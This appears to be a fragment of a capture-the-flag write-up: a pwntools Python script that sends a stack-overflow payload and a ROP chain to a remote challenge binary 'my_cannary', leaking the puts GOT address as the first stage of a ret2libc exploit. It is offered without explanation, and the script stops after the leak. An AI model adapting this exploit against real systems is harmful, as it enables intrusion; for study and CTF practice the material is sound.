 ![m6](./m6.png)

```python
#!/usr/bin/python
#__author__: TaQini
from pwn import *

# p = process('./my_cannary')
p = remote('172.21.4.12',10102)

# context.log_level = 'debug'

elf = ELF('./my_cannary')

len = 48
buf = 0x602670
s = 0x400ad0
ss = "Now let'"

main = 0x400998 # main

# system = elf.symbols['system']
prdi = 0x0000000000400a43 # : pop rdi ; ret

payload = "".ljust(48,"A") + p64(s) + ss + p64(0)

puts = elf.symbols['puts']
puts_got = elf.got['puts']

payload += p64(prdi) + p64(puts_got) + p64(puts) + p64(main)

log.info("payload1:"+payload)

p.recvuntil("Now let's begin\n")
# gdb.attach(p)#,"b *0x400937")
p.sendline(payload)

info = p.recv(6)

log.info(info)
```